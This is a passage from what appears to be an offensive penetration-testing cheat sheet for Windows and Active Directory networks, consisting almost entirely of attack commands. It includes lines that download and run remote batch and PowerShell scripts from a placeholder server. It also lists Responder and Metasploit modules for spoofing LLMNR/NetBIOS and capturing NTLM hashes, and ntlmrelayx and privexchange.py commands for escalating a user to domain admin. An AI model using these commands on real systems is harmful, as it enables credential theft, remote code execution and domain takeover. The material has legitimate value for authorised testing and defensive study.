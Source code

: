 ```
curl http://server/file -o file
curl http://server/file.bat | cmd

IEX(curl http://server/script.ps1);Invoke-Blah
```



SMB

```
python smbserver.py Share `pwd` -u m0chan -p m0chan --smb-2support
```



## [](#header-2)Exploit



LLMNR / NBT-NS Spoofing

```
#Responder to Steal Creds

git clone https://github.com/SpiderLabs/Responder.git python Responder.py -i local-ip -I eth0


#Spoof / poison LLMNR / NetBIOS requests:
auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response

#Capture the hashes:
auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm
```



SMB Relay



NTLM-Relay



Priv Exchange

```
#https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/

Combine privxchange.py and ntlmrelayx

ntlmrelayx.py -t ldap://DOMAINCONTROLLER.m0chanAD.local --escalate-user TARGETUSERTOESCALATE

python privexchange.py -ah FDQN.m0chanAD.local DOMAINCONTROLLER.m0chanAD.local -u TARGETUSERTOESCALATE -d m0chanAD.local

```
